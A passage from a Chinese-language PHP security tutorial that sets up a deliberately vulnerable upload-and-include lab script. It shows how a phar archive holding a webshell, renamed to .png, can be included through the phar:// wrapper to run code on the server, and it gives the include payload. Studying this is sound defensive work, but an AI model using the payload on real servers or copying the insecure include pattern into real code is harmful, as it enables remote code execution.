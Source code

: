 执行，我们会生成一个phar文件，如果你没生成，证明你做错了。

### 怎么利用：
我们模拟以下限制的一个环境
- 上传限制为图片后缀名
- $_GET['b']已经限制了data,input等RCE的伪协议。
- include "$_GET['b']/**webshell.php**"
我们发现include的后面被限制了文件名，不存在00截断的情况下无法包含到我们上传的图片文件。

所以环境代码是：
```php
//blog-phar2.php

<html>
<form action="" enctype="multipart/form-data" method="post" name="upload">file:<input type="file" name="file"><br> 
<input type="submit" value="upload"></form>
</html>
<?php
if(!empty($_FILES["file"]))
{
    echo $_FILES["file"];
    $allowedExts = array("gif", "jpeg", "jpg", "png");
    @$temp = explode(".", $_FILES["file"]["name"]);
    $extension = end($temp);
    if ((@$_FILES["file"]["size"] < 102400) && in_array($extension, $allowedExts))
    {
        move_uploaded_file($_FILES["file"]["tmp_name"], "upload/" . $_FILES["file"]["name"]);
        echo "file upload successful!Save in:  " . "upload/" . $_FILES["file"]["name"];
    }
    else
    {
        echo "upload failed!";
    }
}
if(isset($_GET['b'])){
    $path = $_GET['b']."/webshell.php";
    include $path;
}
?>
```

我们第一步肯定是要上传一个图片文件，内容是phar压缩后的对象。
所以我们把webshell.phar重命名为webshell.png上传

![image-20210125111147837](https://raw.githubusercontent.com/Rand0mPythoner/imgs/master//blog-imgimage-20210125111147837.png)

第二步就是用phar伪协议包含我们上传的文件
具体payload是这样：
```
phar://upload/webshell.png/webshell.php
```
至于我们webshell.php已经在后面了，我们只需要拼webshell.png就行了
